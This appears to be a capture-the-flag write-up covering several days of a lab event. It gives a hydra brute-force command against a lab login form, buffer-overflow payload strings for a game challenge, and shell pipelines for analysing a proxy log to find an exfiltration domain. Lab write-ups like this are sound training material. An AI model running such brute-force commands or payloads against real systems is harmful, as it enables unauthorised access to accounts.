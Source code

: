 # Not including the days with copy paste solutions

## Day 2

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/4c531c44-e8db-4bd0-9386-69eaf47d95a1)

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/55a7560a-da16-4b21-a40d-3c7139abce43)

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/df85fff5-553f-4b1f-ab72-42da868f0957)

## Day 4
Instead of using their wfuzz wordlist, I tried writing my own payload with hydra:

``` hydra -L usernames.txt  -P passwords.txt 10.10.229.119 http-post-form "/login.php:username=^USER^&password=^PASS^:Please enter the correct credentials" -V -f ```

## Day 6

Gold payload:
```AAAAAAAAAAAAXXXX```

Star payload:
```AAAAAAAAAAAAAAAAAAAAAAAAAAAAd```

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/bd55a709-e224-4462-9b88-402839baf887)

The offset to the gold is 12 bytes, the offset to the inventory is 28 bytes. We know the id of the star is "d" because of the shop.

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/681ab864-920c-4e48-af7b-90865cba8af2)

## Day 7

How many unique IP addresses are connected to the proxy server?

``` cat access.log | cut -d ' ' -f2 | sort | uniq | wc -l ```

How many unique domains were accessed by all workstations?

``` cat access.log | cut -d ' ' -f3 | cut -d ':' -f1 | sort | uniq | wc -l ```

What status code is generated by the HTTP requests to the least accessed domain?

``` cat access.log | cut -d ' ' -f3 | cut -d ':' -f1 | sort | uniq -c | sort -n | head -n 1 ```

``` cat access.log | grep partnerservices.getmicrosoftkey.com ```

Based on the high count of connection attempts, what is the name of the suspicious domain?

```cat access.log | cut -d ' ' -f3 | cut -d ':' -f1 | sort | uniq -c | sort -n | tail```

What is the source IP of the workstation that accessed the malicious domain?

``` cat access.log | grep frostlings.bigbadstash.thm | cut -d ' ' -f2  ```

How many requests were made on the malicious domain in total?

``` cat access.log | grep frostlings.bigbadstash.thm | wc -l ```

Having retrieved the exfiltrated data, what is the hidden flag?

``` cat access.log | grep frostlings.bigbadstash.thm | cut -d ' ' -f 5 | cut -d '=' -f2 | base64 -d ```

